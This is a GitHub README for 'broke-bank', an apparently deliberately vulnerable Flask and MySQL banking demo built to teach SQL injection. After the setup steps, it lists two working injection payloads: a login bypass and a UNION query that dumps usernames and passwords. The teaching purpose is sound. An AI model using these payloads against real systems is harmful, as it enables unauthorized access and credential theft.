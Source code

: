 # broke-bank
SQL injection demonstraction built with Flask and MySQL.

# Setup

## 1. Install MySQL
https://dev.mysql.com/downloads/installer/

## 2. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

## 3. Create and activate virtual environment (optional, recommended)
   
macOS/Linux:
```shell
python -m venv .venv && source .venv/Scripts/activate
```
Windows:
```shell
python -m venv .venv && .venv\Scripts\activate
```

## 4. Install dependencies
```shell
pip install -r requirements.txt
```

## 5. Create .env file for environment variables (place in /broke-bank/)
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=username_here
MYSQL_PASSWORD=password_here
```

## 6. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

